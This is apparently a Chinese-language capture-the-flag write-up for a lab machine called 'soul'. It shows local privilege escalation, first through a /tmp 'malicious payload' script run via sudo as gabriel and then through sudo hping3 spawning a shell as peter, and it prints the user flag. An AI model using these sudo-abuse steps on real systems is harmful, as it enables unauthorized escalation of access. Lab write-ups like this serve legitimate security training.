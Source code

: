 ### 尝试提权

部署恶意载荷

```shell
#!/bin/bash

whoami;

/bin/bash
```

## User - gabriel

```shell
(remote) www-data@soul:/tmp$ sudo -u gabriel /tmp/whoami
gabriel
gabriel@soul:/tmp$ whoami
gabriel
```

### flag - user

```shell
gabriel@soul:~$ cat user.txt
HMViwazhere
```

### 环境探测

```plaintext title="sudo -l"
Matching Defaults entries for gabriel on soul:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gabriel may run the following commands on soul:
    (peter) NOPASSWD: /usr/sbin/hping3
```

## User - peter

```shell
gabriel@soul:~$ sudo -u peter /usr/sbin/hping3
hping3> /bin/bash
peter@soul:/home/gabriel$ whoami
peter
```

### 环境探测

```plaintext title="sudo -l"
Permission denied
```
